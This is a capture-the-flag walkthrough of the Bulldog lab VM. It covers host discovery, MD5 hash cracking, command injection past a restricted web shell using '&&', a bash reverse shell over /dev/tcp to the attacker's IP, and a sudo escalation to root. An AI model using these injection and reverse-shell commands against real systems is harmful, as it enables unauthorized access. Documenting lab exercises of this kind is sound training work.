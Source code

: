 

### **Netdiscover**

![netdiscover](images/bulldog/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.107 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/bulldog/nmap.png)

We found some services  <u>HTTP</u>, <u>SSH</u>

------

### Solution

通过python dirsearch.py  -u url   -e py

![disearch](images/bulldog/disearch.png)

We found  /admin, /dev /robots.txt.

![admin-login](images/bulldog/admin-login.png)

![robots](images/bulldog/robots.png)

![dev](images/bulldog/dev.png)

The web shell needs to login to use,  so we login in admin page, but we have no users and passwords.

we can find in this dev page, exists some email, we inspect source code.

![hash](images/bulldog/hash.png)

By crack md5 password,  We can find two pair: **nick == > bulldog, sarah ==> bulldoglover**

Now let we login in nick, of cource sarah same.

![nick](images/bulldog/nick.png)

Nothing found in page. so we turn to /dev webshell.

![nc](images/bulldog/nc.png)

Found only six command can use, So we generate  shell at first, but can't make effect.

We guessed that wether we could append root user to /etc/passwd. 

![append](images/bulldog/append.png)

But Error.

So let's try to bypass, we use &&

![whoami](images/bulldog/whoami.png)

Then we execute our shell file.But nc's error occur, may this user not installed, So We use basic bash to reverse shell.

`echo '1' && echo 'bash -i >& /dev/tcp/192.168.0.106/2333 0>&1' > reverse.sh`

`echo '1' && chmod +x reverse.sh`

`echo '1' && bash reverse.sh` 

![reverse](images/bulldog/reverse.png)

reverse shell successfully!!!

So we find /home directory and some interesting found.

![ls](images/bulldog/ls.png)

according to this note, may the django login from this App, we may find somethings from it.

![app](images/bulldog/app.png)

After some retries, we found this password :**SUPERultimatePASSWORDyouCANTget**

ssh login with django, it's ok.

![ssh](images/bulldog/ssh.png)

We find wether the django user has sudo prilivege.

![sudo](images/bulldog/sudo.png)

So we can su root to get root privilege.

![flag](images/bulldog/flag.png)

------

**That' all , Thanks for your watching**